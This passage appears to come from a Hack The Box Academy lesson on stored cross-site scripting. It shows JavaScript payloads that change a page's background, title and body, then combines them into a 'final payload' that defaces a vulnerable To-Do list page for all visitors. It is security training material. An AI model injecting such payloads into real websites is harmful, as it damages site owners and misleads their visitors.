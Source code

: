 This sets the background to a dark color (e.g., Hack The Box's default background). For an image background, use:

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

### Changing Page Title

Modify the page title using:

```html
<script>document.title = 'HackTheBox Academy'</script>
```

The browser tab/window will display the new title.

### Changing Page Text

To change text on the page, use the `innerHTML` property:

```javascript
document.getElementById("todo").innerHTML = "New Text";
```

For broader changes, replace the entire page's content:

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text";
```

Example using Hack The Box Academy's HTML structure:

```html
<script>
document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"></p></center>';
</script>
```

### Final Payload

Combine the changes to create a defaced web page:

```html
<script>
document.body.style.background = "#141d2b";
document.title = 'HackTheBox Academy';
document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"></p></center>';
</script>
```

Once injected into a vulnerable To-Do list, this payload will persist across page refreshes, defacing the web page for all visitors.

### Observing Source Code
